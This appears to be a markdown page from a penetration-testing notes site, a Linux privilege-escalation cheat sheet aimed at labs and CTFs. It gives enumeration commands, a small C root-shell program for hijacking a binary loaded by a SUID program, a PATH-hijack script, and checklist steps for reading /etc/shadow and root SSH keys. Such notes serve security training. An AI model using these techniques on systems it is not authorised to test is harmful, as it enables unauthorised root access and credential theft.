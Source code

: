 ```yaml
---
title: "Linux"
weight: 1
description: "Learn about various techniques and methods for privilege escalation on Linux system, including exploiting weak permissions, SUID, and more, with detailed notes and code examples."
---
```


# Linux Privilege Escalation


## Vulnerable program

Search scripts that execute programs. Search for **any vulnerable version**. One example: chkrootkit v0.49 (running as root)

```sh
ps aux
```

{{< hint style=notes >}}
**Note**: it's possible that another user (e.g., root) is running a cron job that executes a script periodically, which you may not be able to see. Therefore, it's crucial to identify and enumerate all potential programs that could be vulnerable.
{{< /hint >}}

---

## Weak Permissions

```sh
# World-writable files - E.g.: maybe you can edit shadow file
find / -not -type l -perm -o+w
```

---

## Sudo

```sh
sudo -l
# Search on https://gtfobins.github.io/ how to exploit
```

---

## SUID 

Find all SUID binaries:
```bash
find / -perm -4000 2>/dev/null
```

**Well-known binary**

Search for the binary on [GTFOBins](https://gtfobins.github.io) to identify potential exploitation techniques.


**Custom binary**

Premise: you have `binary_name` (with suid) that use/load/execute `loaded_binary`

Extract strings from the binary – look for shared libraries or binaries being loaded / executed at runtime

```sh
strings binary_name
```

**(1) Method**

```sh
cp /bin/bash /path/to/loaded_binary
```

**(2) Method**

Delete the loaded binary and replace with a new one:

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    system("/bin/bash -i"); 
    return 0;
}
```

```sh
# Compile
gcc binary.c -o <loaded_binary>
# Run the binary
./binary_name
```

---

## Capabilities

Since Linux version 2.2, the system has divided the traditional superuser privileges into distinct units called capabilities \[[🔗](https://man7.org/linux/man-pages/man7/capabilities.7.html)]. These capabilities can be independently enabled or disabled, offering more fine-grained control over process privileges. However, if misconfigured, they can be exploited by an attacker to escalate privileges and gain root access.

```sh
/usr/sbin/getcap -r / 2>/dev/null
```

Search for the binary on [GTFOBins](https://gtfobins.github.io) to identify potential exploitation techniques.


---

## Email

Analyze the email for any sensitive information:

```bash
ls /var/mail
```


---

## Other

* `sudo -l`
  * setenv?
* SUID/GUID
* Look for capabilities
* History Files
* Docker group
* Cron jobs
* SSH Keys
* PATH
* NFS
* Writable /etc/shadow
* Writable /etc/passwd
* Are there scripts that use commands?
  * If the command is executed without full path you can modify PATH variable
  * `strings <program_name>`
  * you see `tail -f /var/log/nginx/access.log`
  * ```sh
    #!/bin/bash
    /bin/bash -p
    ```
  * `chmod +x /tmp/tail`
  * `export PATH=/tmp:$PATH`
  * `./<program_name>`
* Is there a database? Can I access to it?
  * Look at config file or source code of webpages connecting to db
* Look at the source code of the php,py,jsp ... files of the website
  * Especially login files. Any password?
* Writable authorized\_key folder?
  * generate new ssh keys
* Can I read some file with sudo?
  * /root/root.txt, /etc/shadow, /root/.ssh/id\_rsa
* Can I write a file in the root user directory?
  * generate ssh key with ssh-keygen and save it in the root user dir
* Kernel Exploits
* Linpeas.sh
* [GTFObins](https://gtfobins.github.io)
